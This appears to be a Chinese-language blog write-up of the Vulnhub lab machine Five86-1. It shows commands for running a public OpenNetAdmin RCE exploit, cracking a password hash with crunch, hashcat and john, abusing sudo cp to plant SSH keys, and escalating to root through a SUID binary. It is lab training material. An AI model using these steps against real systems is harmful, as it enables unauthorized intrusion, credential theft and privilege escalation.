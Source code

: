 ```yaml
---
layout: mypost
title: Vulnhub靶机Five86-1
categories: [靶机]
---
```


靶机下载地址：[Five86-1](https://www.vulnhub.com/entry/five86-1,417/)

Kali Linux 地址：192.168.43.110

![](https://z3.ax1x.com/2021/05/07/g34JbD.png)

Five86-1 地址：192.168.43.11

访问 web 页面

![](https://z3.ax1x.com/2021/05/07/g34tVe.png)

![](https://z3.ax1x.com/2021/05/07/g34dPA.png)

空页，dirb 扫目录

![](https://z3.ax1x.com/2021/05/07/g34BxP.png)

![](https://z3.ax1x.com/2021/05/07/g34orT.png)

![](https://z3.ax1x.com/2021/05/07/g34HZF.png)

提示 /ona 目录

![](https://z3.ax1x.com/2021/05/07/g34zM6.png)

是 OpenNetAdmin

![](https://z3.ax1x.com/2021/05/07/g35pqO.png)

版本 18.1.1

github 上搜现成 [exp](https://github.com/amriunix/ona-rce)

或者 searchsploit ，不过要对 bash 脚本转换格式，否则会报错，使用 dos2unix 47691.sh 这个命令，而且这里的 shell 不能转成 tty

![](https://z3.ax1x.com/2021/05/07/g35AJA.png)

```python
python3 ona-rce.py exploit http://192.168.43.11/ona
```

![](https://z3.ax1x.com/2021/05/07/g35Mdg.png)

上线

![](https://z3.ax1x.com/2021/05/07/g35TSI.png)

不能执行 cd，可以执行 ls 和 cat

查看可用命令

```bash
find / -type f -user www-data
```

![](https://z3.ax1x.com/2021/05/07/g35bOf.png)

除了 /proc 就是 /var/log/ona.log 和 /var/www/html/reports/.htaccess

查看可疑的 /var/www/html/reports/.htaccess

![](https://z3.ax1x.com/2021/05/07/g35Lm8.png)

可以找到 AuthUserFile 的路径 /var/www/.htpasswd，进而查看之

![](https://z3.ax1x.com/2021/05/07/g35vkQ.png)

得到 douglas 的密码 hash ： 

```hash
 $apr1$9fgG/hiM$BtsL9qpNHUlylaLxk81qY1
```

提示密码是包含 aefhrt 的 10 个字符

用 hash-identifier 判断 hash 种类

![](https://z3.ax1x.com/2021/05/07/g3IK6x.png)

然后用 crunch 生成对应条件的字典

> crunch <min-len> <max-len> [charset string] [options]

```bash
crunch 10 10 aefhrt -o ps.txt
```

![](https://z3.ax1x.com/2021/05/07/g3IlnK.png)

最后用 hashcat 破解

```bash
hashcat -m 1600 -a 0 -o res hash.txt ps.txt --force
```

![](https://z3.ax1x.com/2021/05/07/g3IRcq.png)

或者用 john 破解 

```bash
john --wordlist=ps.txt hash.txt
```

![](https://z3.ax1x.com/2021/05/07/g3oSED.png)

得到 douglas 的密码 fatherrrrr

登录 ssh

![](https://z3.ax1x.com/2021/05/07/g3oZb8.png)

查看权限

![](https://z3.ax1x.com/2021/05/07/g3o1vq.png)

douglas 能以 jen 的身份执行 cp 

访问 home

![](https://z3.ax1x.com/2021/05/07/g3odPJ.png)

如果 jen 目录下的 /home/jen/.ssh/authorized_keys 文件里包含了 douglas 的公钥，那就可以用 douglas 的 id_rsa 文件免密登录 jen 的 ssh

jen 没有权限访问 douglas 目录下的文件，所以把 douglas 的公钥先复制到 /tmp 下再授权转移

```bash
cp .ssh/id_rsa.pub /tmp/authorized_keys
chmod 777 /tmp/authorized_keys 
sudo -u jen /bin/cp /tmp/authorized_keys /home/jen/.ssh/
```

![](https://z3.ax1x.com/2021/05/07/g3o2Ie.png)

切换 jen 的 ssh

```bash
ssh -i id_rsa jen@127.0.0.1
```

![](https://z3.ax1x.com/2021/05/07/g3TVzR.png)

提示 mail，例行：

```bash
echo $(find / -type f -user jen) > 1.txt
cat 1.txt
```

![](https://z3.ax1x.com/2021/05/07/g3TMdO.png)

可以读取 /var/mail/jen，或者直接 mail 

![](https://z3.ax1x.com/2021/05/07/g3TYQI.png)

![](https://z3.ax1x.com/2021/05/07/g3Tdw8.png)

得到 Moss  的密码 Fire!Fire!

再次切换

```bash
ssh moss@127.0.0.1
```

![](https://z3.ax1x.com/2021/05/07/g3TbOx.png)

![](https://z3.ax1x.com/2021/05/07/g3791A.png)

当前目录发现隐藏目录 .games

![](https://z3.ax1x.com/2021/05/07/g37A78.png)

发现 root 权限的二进制文件 upyourgame

直接运行

![](https://z3.ax1x.com/2021/05/07/g37GAU.png)

![](https://z3.ax1x.com/2021/05/07/g370nx.png)

> 8f3b38dd95eccf600593da4522251746

Pwned！
